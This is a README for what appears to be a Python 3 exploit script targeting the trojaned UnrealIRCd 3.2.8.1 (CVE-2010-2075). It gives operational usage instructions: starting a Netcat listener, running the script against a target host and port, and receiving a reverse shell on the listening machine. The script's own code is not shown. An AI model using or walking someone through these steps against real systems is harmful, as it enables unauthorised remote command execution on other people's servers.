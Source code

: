 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
Start a Netcat listener on the listening host:
`nc -lp 4444`

Execute the script, providing the following positional arguments:
`python3 script.py <target> <tport> <listener> <lport>`
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Set up a netcat listener on your local machine:
`nc -nlvp 4444`
Run the script against a target machine at 192.168.0.0 TCP port 6697:
`python3 script.py 192.168.0.0 6697 192.168.1.0 4444`
Wait a minute and the Netcat listener should receive a reverse shell.
